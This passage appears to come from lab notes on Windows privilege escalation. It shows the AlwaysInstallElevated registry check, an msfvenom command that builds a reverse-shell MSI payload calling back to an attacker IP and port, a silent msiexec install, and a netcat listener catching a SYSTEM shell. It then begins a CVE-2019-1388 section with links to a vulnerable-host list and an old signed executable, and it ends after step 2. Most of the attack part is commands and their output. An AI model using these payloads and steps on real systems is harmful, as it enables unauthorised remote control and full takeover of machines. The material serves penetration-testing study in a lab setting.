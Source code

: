 ```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

--> Our enumeration shows us that the AlwaysInstallElevated key exists, so the policy is indeed enabled on the target system.

2) Generating MSI Package

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

3) Executing MSI Package

```
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

4) Catching Shell

```
nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

## CVE-2019-1388

https://nvd.nist.gov/vuln/detail/CVE-2019-1388

Link of list of vulnerable servers and workstations :
https://web.archive.org/web/20210620053630/https://gist.github.com/gentilkiwi/802c221c0731c06c22bb75650e884e5a

1) Uploading an old-Microsoft-signed executable

https://packetstormsecurity.com/files/14437/hhupd.exe.html

2) Run as administrator
